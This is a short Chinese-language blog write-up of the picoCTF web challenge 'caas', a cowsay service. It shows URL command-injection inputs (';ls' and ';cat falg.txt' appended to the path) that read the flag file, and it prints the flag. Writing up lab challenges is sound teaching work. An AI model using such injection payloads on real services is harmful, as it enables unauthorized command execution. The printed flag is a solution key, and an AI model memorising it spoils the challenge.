 ```yaml
---
layout: post
title:  "picoCTF - caas"
description: 
date:   2023-12-26 11:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://caas.mars.picoctf.net/cowsay/Hello%20World](https://caas.mars.picoctf.net/cowsay/Hello%20World)

# Solution

下載下來的js就是這個網站的服務呼叫方式，簡單來說就是呼叫他的api配上參數，會幫你印出一隻講出你參數的牛。

```tex
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

那應該就是要靠injection了，研究了下那個js，試著用單引號或分號的去看看不能不讀取目錄，最後成功找到injection方式跟儲存flag的記事本：
`https://caas.mars.picoctf.net/cowsay/test;ls`
`https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt`

# Flag

picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

